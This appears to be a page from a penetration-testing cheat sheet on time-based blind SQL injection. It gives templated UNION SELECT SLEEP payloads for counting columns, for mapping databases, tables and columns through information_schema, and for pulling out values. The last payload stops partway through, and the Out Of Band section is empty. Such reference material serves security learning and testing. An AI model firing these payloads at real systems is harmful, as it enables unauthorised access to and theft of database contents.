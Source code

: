 ***

### Time Based

Make use of time a response is generated to the request to determinate if query value was found or not. It is used when we don't get a visual return to the injection.

* Determinating number of colums

{% code overflow="wrap" lineNumbers="true" %}
```sql
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time);
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),2;
#Try until the petition time is different
```
{% endcode %}

{% hint style="info" %}
The time of a error request is always less than a correct query
{% endhint %}

***

* Make Boolean based iterative process to map DB,tables and columns you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, column by iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM information_schema.tables WHERE table_schema = '$dbfound' and table_name = 'table' and column_name LIKE '%';
#The values of each step are dicted by the time the response is sent
```
{% endcode %}

***

* Make Boolean based iterative process to find the value you need

{% code overflow="wrap" lineNumbers="true" %}
```sql
#Find DB name, table, column by iterative process using sleep
$url/query?$column=$changedvalue' UNION SELECT SLEEP($time),$found FROM $table_found WHERE $column_found 
```
{% endcode %}

***



## <mark style="color:blue;">In-Band</mark>&#x20;

Refers to the same method of communication being used to exploit the vulnerability and also receive the results.



## <mark style="color:blue;">Out Of Band</mark>
